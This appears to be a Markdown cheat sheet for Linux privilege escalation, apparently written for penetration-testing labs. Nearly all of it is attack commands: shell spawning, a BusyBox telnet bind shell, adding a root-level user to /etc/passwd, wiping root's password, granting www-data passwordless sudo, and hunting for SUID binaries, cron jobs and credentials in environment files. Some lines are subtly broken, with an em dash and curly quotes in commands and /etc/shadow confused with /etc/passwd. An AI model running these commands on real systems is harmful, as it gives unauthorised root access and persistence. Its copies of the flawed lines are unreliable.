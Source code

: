 - [Enumeration](#enumeration)
  * [Manual Enumeration](#manual-enumeration)

## Enumeration


After getting intial shell, create TTY shell:

Python:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bash:
```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:
```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:
```
 exec "/bin/sh"
```

Lua console:
```
os.execute('/bin/sh')
```

Vi:
```
:!bash
:set shell=/bin/bash:shell
```
BusyBox:
```
/bin/busybox telnetd -|/bin/sh -p9999
```

Set PATH and TERM if they are missing (also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
``` 

### Manual Enumeration

Check for sudo allowance:

```
sudo su -
sudo -l
```

Is /etc/shadow is world-writable (ls -la /etc/shadow == -rwxrwxrwx) ?

1) Create our password:
```
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```
2) Append our new user to the /etc/shadow file:

```
echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

OR reset root pasword using this trick (may be unstable):

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

Can we add user with no password to /etc/sudoers file?

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

What process are running under root?

```
ps aux | grep root
```

What SUID / GUID binaris are available?

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

Abusing sudo-rights using SUID/GUIDS or any 3rd-party utility could be found using https://gtfobins.github.io/

Finding world readable/writable directories:

```
 echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Check for Environment variables:
```
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Check what exported path are availble:

```
export -p
```

Check background process (cronjobs):

```
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

Getting final Proof:

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```
